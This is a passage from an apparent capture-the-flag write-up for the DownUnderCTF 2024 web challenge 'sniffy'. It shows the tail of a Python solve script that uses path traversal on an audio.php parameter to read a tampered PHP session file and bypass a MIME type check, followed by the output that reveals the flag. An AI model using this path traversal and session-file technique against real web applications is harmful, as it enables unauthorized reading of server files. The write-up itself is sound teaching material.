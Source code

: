 ```python
    fileParameter = f'?f={PATH_TRAVERSAL}{PHP_SESSION_FILE_LOCATION}{sessionCookie}'
    audioUrl = f'{baseUrl}/audio.php{fileParameter}'
    response = requests.get(audioUrl)
    if response.status_code == 403:
        # print('[-] Our session file MIME type did not starts with "audio"')
        return
    elif response.status_code == 404:
        # print('[-] The session file doesn\'t exist')
        return
    
    flag = re.search(FLAG_REGEX, response.text).group(1)
    print(f'\n[+] We successfully tricked the PHP function MIME type to start with "audio" at offset {offset}!')
    print(f'[+] Here\'s the flag: {flag}')
    exit(0)

def exploit(baseUrl, offset):
    print(f'[*] Trying offset {offset}', end='\r')
    sessionCookie = appendMagicNumber(baseUrl, offset)
    getFlag(baseUrl, sessionCookie, offset)

if __name__ == '__main__':
    # baseUrl = 'http://localhost'
    baseUrl = 'https://web-sniffy-d9920bbcf9df.2024.ductf.dev'

    for offset in range(-50, 50):
        thread = Thread(target=exploit, args=(baseUrl, offset))
        thread.start()
```

```shell
┌[siunam♥Mercury]-(~/ctf/DownUnderCTF-2024/web/sniffy)-[2024.07.09|20:46:51(HKT)]
└> python3 solve.py
[*] Trying offset 404
[+] We successfully tricked the PHP function MIME type to start with "audio" at offset 44!
[+] Here's the flag: DUCTF{koo-koo-koo-koo-koo-ka-ka-ka-ka-kaw-kaw-kaw!!}
```

- **Flag: `DUCTF{koo-koo-koo-koo-koo-ka-ka-ka-ka-kaw-kaw-kaw!!}`**

## Conclusion

What we've learned:

1. File MIME type filter bypass